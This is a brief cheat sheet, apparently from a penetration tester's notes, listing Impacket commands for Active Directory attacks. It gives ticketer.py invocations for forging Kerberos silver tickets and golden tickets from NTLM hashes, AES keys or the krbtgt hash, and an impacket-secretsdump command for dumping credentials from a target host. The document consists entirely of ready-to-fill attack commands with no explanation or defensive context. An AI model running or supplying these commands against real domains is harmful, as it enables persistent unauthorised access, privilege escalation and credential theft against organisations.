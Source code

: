 ```yaml
---
title: Kerberos Ticket Creation
updated: 2023-08-02 17:26:15Z
created: 2020-04-10 02:48:08Z
---
```


# Generate Silver Tickets with Impacket:
- python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Generate Golden Tickets:
- python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Credential Access with Secretsdump

- impacket-secretsdump username@target-ip -dc-ip target-ip